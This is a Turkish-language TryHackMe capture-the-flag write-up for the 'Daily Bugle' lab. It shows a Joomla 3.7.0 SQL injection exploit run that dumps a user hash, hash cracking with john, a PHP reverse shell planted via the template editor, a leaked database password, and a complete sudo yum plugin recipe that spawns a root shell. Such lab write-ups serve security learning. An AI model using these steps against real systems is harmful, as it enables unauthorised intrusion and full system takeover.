 ```yaml
---
title: 'TryHackMe | Daily Bugle WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [sql injection, sudo]
render_with_liquid: false
media_subpath: /images/tryhackme_daily_bugle/
image:
  path: logo.webp
---
```


## Özet

Daily Bugle, SQL injection zafiyetli eklentiye sahip olan bir joomla uygulamasıdır. Bu zafiyete özel olarak hazırlanmış bir sömürü aracından faydalanarak kullanıcı bilgilerini elde edeğiz. Daha sonra bu bilgileri kullanarak içerik yönetim sistemine giriş yapacak ve temalar kısmından php reverse shell kodumuzu yükleyeceğiz. Bağlantı sonrasında ise joomla'nın konfigürasyon dosyasınından bir kullanıcının parolasını alacak ve onun hesabına geçeceğiz. Sonra da root haklarıyla çalıştırabileceğimiz yum aracı için bir eklenti yazacak ve çalıştırdıktan sonra root haklarına sahip olacağız.

## Keşif aşaması

### Nmap taraması

![](1.webp){: width="1200" height="600" }

Tarama sonucunda 22 (SSH), 80 (HTTP) ve 3306 (Mysql) numaralı portların açık olduğunu öğreniyoruz.

### 80 numaralı port'un incelenmesi

![](2.webp){: width="1200" height="600" }

Web uygulamasında örümcek adamın hırsızlık yaptığı bir haber paylaşılmış. Haberi paylaşan kişinin ismi `Super User`. Uygulamanın favicon kısmına baktığımızda `joomla` içerik yönetim sisteminin kullanıldığını öğreniyoruz. Joomscan aracını kullanarak hedef uygulamayı tarayalım.

```console
$ joomla -u 10.10.19.236
...
[+] Detecting Joomla Version
[++] Joomla 3.7.0 
...
```

Tarama sonucunda içerik yönetim sisteminin 3.7.0 sürümünü kullandığını öğrendik. Adını ve sürümünü google da arattıktan sonra [bu](https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py) exploit ile karşılaşıyoruz.

## Sömürü aşaması

Exploit'i indirdikten sonra çalıştırıyor ve kullanıcı bilgilerini elde ediyoruz.

```console
$ python3 joomblah.py http://10.10.19.236/
...
[-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

Elde ettiğimiz hash'i john aracının yardımıyla kıralım.

```console
$ john hash -w=Desktop/rockyou.txt 
[sudo] password for appdone: 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s***3    (?)
...
```

Kullanıcı bilgilerini kullanarak SSH servisine bağlanmayı denedim ama olmadı. Daha sonra joomla paneline giriş yaptıktan sonra temalar kısmından ana sayfaya php shell kodumu girdim.

![](3.webp){: width="1200" height="600" }

Kayıt ettikten sonra "Template Preview" butonuna tıkladığımızda reverse shell kodunu çalıştırıyor ve sisteme ilk adımımızı atıyoruz.

## Yetki yükseltme

### jjameson

Joomla uygulamasının konfigürasyon dosyasının içerisinden `jjameson` kullanıcısının parolasını alıyoruz.

```console
bash-4.2$ cat configuration.php
public $dbtype = 'mysqli';
public $host = 'localhost';
public $user = 'root';
public $password = 'nv5uz9r3ZEDzVjNu';
public $db = 'joomla';
```

Kullanıcıya geçiş yaptıktan sonra ilk bayrağı kendi dizininden alıyoruz.

### root

`sudo -l` komutunu kullandıktan sonra yum aracını parola gerektirmeden ve tüm kullanıcılar adına çalıştırabileceğimizi öğreniyoruz.

```console
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

yum aracını kullanarak nasıl yetki yükseltebileceğimizi öğrenmek için [GTFOBins](https://gtfobins.github.io/gtfobins/yum/#sudo) sitesinden faydalanıyoruz. Oradan aldığımız komutu sistemde çalıştırdıktan sonra root yetkisinde bir shell'e sahip oluyoruz.

```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

Bu komut yığını root kullanıcısına geçiş yapabilmemiz için bir eklenti oluşturuyor. Eklentileri aktif ettikten sonra belirtilen eklenti adresinden eklentiyi alıp çalıştırıyor, böyleye root haklarına sahip bir shell elde ediyoruz.
